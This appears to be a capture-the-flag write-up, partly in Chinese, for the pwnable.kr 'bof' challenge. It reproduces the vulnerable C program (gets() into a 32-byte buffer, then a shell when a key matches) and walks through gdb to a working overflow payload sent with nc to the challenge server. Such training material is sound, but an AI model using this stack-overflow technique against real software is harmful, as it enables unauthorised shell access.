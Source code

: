 ```yaml
---
layout: default
title: pwnable_bof
parent: Pentest
nav_order: 2
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzer 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
 
# 執行結果
>>> id_generator()
'G5G74W'
>>> id_generator(3, "6793YUIO")
'Y3U'
```
## 程式原始碼
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
---
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

### gdb
```asm
b func
```
![bof1](https://github.com/Larry-Huang/bof4/blob/master/bof1.JPG?raw=true)
```asm
##此處跳轉
cmp DWORD PTR [ebp+8],0xcafebabe
```
![bof2](https://github.com/Larry-Huang/bof4/blob/master/bof2.JPG?raw=true)
```asm
##覆蓋key的位址
##計算後要52+4
'A'*52+ \xbe\xba\xfe\xca
```
![bof3](https://github.com/Larry-Huang/bof4/blob/master/bof3.JPG?raw=true)
```asm
##修改OK
```
![bof4](https://github.com/Larry-Huang/bof4/blob/master/bof4.JPG?raw=true)
```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




